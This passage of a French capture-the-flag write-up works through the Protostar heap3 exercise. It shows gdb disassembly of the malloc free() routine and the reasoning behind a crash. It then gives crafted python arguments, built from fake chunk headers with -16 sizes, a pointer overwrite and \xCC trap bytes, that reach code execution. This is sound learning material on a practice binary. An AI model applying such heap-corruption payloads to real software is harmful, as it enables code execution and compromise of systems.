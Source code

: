 Investiguons ce qu'il se passe en partant de l'instruction fautive :

```
(gdb) x/i $eip
0x8049921 <free+253>:   mov    0x4(%eax),%eax
(gdb) info reg eax
eax            0x4a470280       1246167680
(gdb) x/20i $eip-60
0x80498e5 <free+193>:   mov    -0x34(%ebp),%eax
0x80498e8 <free+196>:   mov    0x8(%eax),%eax
0x80498eb <free+199>:   mov    %eax,-0x14(%ebp)
0x80498ee <free+202>:   mov    -0x34(%ebp),%eax
0x80498f1 <free+205>:   mov    0xc(%eax),%eax
0x80498f4 <free+208>:   mov    %eax,-0x18(%ebp)
0x80498f7 <free+211>:   mov    -0x14(%ebp),%eax
0x80498fa <free+214>:   mov    -0x18(%ebp),%edx
0x80498fd <free+217>:   mov    %edx,0xc(%eax)
0x8049900 <free+220>:   mov    -0x18(%ebp),%eax
0x8049903 <free+223>:   mov    -0x14(%ebp),%edx
0x8049906 <free+226>:   mov    %edx,0x8(%eax)
0x8049909 <free+229>:   mov    -0x38(%ebp),%eax
0x804990c <free+232>:   mov    0x2c(%eax),%eax
0x804990f <free+235>:   cmp    -0x28(%ebp),%eax
0x8049912 <free+238>:   je     0x80499b6 <free+402>
0x8049918 <free+244>:   mov    -0x24(%ebp),%eax
0x804991b <free+247>:   mov    -0x28(%ebp),%edx
0x804991e <free+250>:   lea    (%edx,%eax,1),%eax
0x8049921 <free+253>:   mov    0x4(%eax),%eax
(gdb) info reg edx
edx            0x804c040        134529088
(gdb) x/wx $ebp-0x24
0xbffff6f4:     0x42424240
```

Le code a tenté d'écrire à `eax+4` et cette adresse semble improbable.

En remontant un peu les instructions ont voit que `eax` s'est vu affecté la valeur `edx+eax*1` et que `edx` correspond à `0x804c040` soit 16 octets AVANT et non après comme notre fake chunk.

Le registre `eax` provient quand à lui bien de `ebp-0x24` et correspond aux caractères `B`  que l'on a passé mais avec un bit mis à zéro...

Pas de doute, `malloc` cherche cette fois à consolider le chunk avec le suivant qu'il s'attend à voir à l'adresse `0x804c040`.

On sait que pour voir si le chunk suivant est libre il doit lire l'information sur le suivant du suivant, dans l'information de la taille.

La taille du chunk suivant (qu'il cherche à `0x804c040`) est aussi importante car `malloc` va remonter en mémoire d'autant d'octets. On va continuer avec nos tailles en `-16` :)

C'est parti :

```
(gdb) r `python -c 'print "\xCC" * 16'` `python -c 'print "A"*16 + "\xf1\xff\xff\xff\xf1\xff\xff\xff" + "A" * 8 + "\xf0\xff\xff\xff\xf0\xff\xff\xff"'` `python -c 'print "C"*16 + "\x1c\xb1\x04\x08\x0c\xc0\x04\x08"'`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap3 `python -c 'print "\xCC" * 16'` `python -c 'print "A"*16 + "\xf1\xff\xff\xff\xf1\xff\xff\xff" + "A" * 8 + "\xf0\xff\xff\xff\xf0\xff\xff\xff"'` `python -c 'print "C"*16 + "\x1c\xb1\x04\x08\x0c\xc0\x04\x08"'`

Program received signal SIGTRAP, Trace/breakpoint trap.
0x0804c00d in ?? ()
(gdb) x/36wx 0x804c000
```